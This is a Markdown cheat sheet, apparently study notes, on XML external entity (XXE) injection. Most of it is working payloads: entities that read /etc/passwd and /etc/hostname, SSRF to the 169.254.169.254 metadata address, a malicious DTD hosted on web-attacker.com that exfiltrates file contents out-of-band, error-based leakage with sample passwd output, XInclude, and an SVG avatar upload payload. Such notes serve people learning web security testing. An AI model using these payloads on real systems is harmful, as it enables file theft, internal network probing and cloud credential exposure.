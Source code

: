 ## to retrieve files

- suppose a shopping application checks for the stock level of a product:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
-> no defense -> retrieve the `/etc/passwd`:
```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## to perform SSRF attacks

- `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>` ex:
```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Blind XXE

## via out-of-band 

- *OOB(reqular entity)* -> `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
- *OOB(parameter entity)* -> `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

example (**exfiltrate data out-of-band**): 
- malicious DTD:
```DTD
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
  -  attacker hosts the DTD at the following URL -> `http://web-attacker.com/malicious.dtd`
  - then attacker submits the following XXE payload:
```DTD
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
## via error messages

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
->
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## repurposing a local DTD
#todo 

# hidden attack surfaces

## XInclude

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## via file upload

- Create a local SVG image:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px"
	xmlns="http://www.w3.org/2000/svg"
	xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
-> upload it as your avatar 
## via modified content type

- normal request:
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

- after changing the content type:
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```